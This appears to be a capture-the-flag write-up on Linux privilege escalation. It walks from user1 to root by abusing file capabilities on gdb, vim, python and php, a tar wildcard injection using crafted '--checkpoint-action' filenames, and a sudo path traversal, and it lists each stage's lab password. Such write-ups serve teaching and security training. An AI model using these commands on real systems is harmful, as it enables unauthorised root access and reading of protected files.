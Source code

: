 ## User1
![](/images/privesc/user1.png)

Investigating ```/usr/bin/gdb``` capabilities reveals ```cap_dac_read_search=ep```.

The cap_dac_read_search capability provides users the ability to read ANY file on the filesystem, which includes all files owned by root. So we simply run:

```
gdb
python print(open("/root/user2.txt").read())
```
Password for user 2: WolfMountedFastnessNappy

## User2
![](/images/privesc/user2.png)

Investigating ```/usr/bin/vim.basic``` capabilities reveals 
```cap_dac_override=ep```.

The cap_dac_override capability provides a user with the ability to write to ANY file on the filesystem. Therefore we can symply access the ```user3.txt``` file with vim
```
vim /root/user3.txt
```
Password for user 3: PebblyClaritySuperiorMournful

## User3
![](/images/privesc/user3.png)

Investigating ```/usr/bin/python3.11``` capabilities reveals ```cap_fowner=ep```.

The cap_fowner capability provides a user with the ability to change the permissions of ANY file or directory on the filesystem, which includes all files and directories owned by root.

To get the quick root, simply set the SUID bit on /bin/bash, like so:
```
/usr/bin/python3 -c 'import os;os.chmod("/bin/bash", 0o4755)'
```
Then run ```/bin/bash``` and acces the needed file as root.

Password for user 4: JustifierDetachedCuppedEndurable

## User4
![](/images/privesc/user4.png)

Investigating ```/usr/bin/php8.2``` capabilities reveals ```cap_setuid=ep```.

The cap_setuid capability provides a user with the ability to run whatever binary that has this capability set as root.

We make a command to execute a PHP script that changes the user ID to 0 (which is the root user) and then execute a shell (/bin/sh). 

This effectively gives the user a shell with root privileges.
```
CMD="/bin/sh"
./php -r "posix_setuid(0); system('$CMD');"
```
Password for user 5: VentureRangedConveneVirus

## User5
![](/images/privesc/user5.png)

Investigating with ```./pspy``` reveals that there is a cronjob that archives all the data from ```/home/user5```. The exploitation is possible due to the checkpoint functionality within the tar utility.

First create a script that will save the contents of the ```/root/user6.txt``` in ```/home/user5/password.txt```.
Make the script executable.
Create a file named ```--checkpoint=1```.
Create another file named ```--checkpoint-action=exec=sh pwn.sh```.
```
echo “cat /root/user6.txt > /home/user5/password.txt” > /home/user5/pwn.sh
chmod +x /home/user5/pwn.sh
touch /home/user5/--checkpoint=1
touch /home/user5/--checkpoint-action=exec=sh\ pwn.sh
```

When the cronjob is executed, the wildcard is expanded to files in ```/home/user5```, which coincidentally can be interpreted as command-line arguments for tar. Thus, tar perceives them as arguments and executes the pwn.sh script. All thats left is to display the contents of ```/home/user5/password.txt```.

Password for user 6: RearViewUnscathedSantaRamble

## User6
![](/images/privesc/user6.png)

```sudo -l``` informs us that we can run ```/usr/bin/python3``` and ```/root/*.py``` as ```(root) NOPASSWD```.

Create the ```script.py``` under ```/tmp``` and add code to read data from the needed file.:
```
echo "print(open("/root/password.txt").read())" > /tmp/script.py
```
Now run the python command as root. We can pass the file using path traversal.
```
sudo /usr/bin/python3 /root/../tmp/script.py
```

Password for root: CapsAndMissesEverywhere
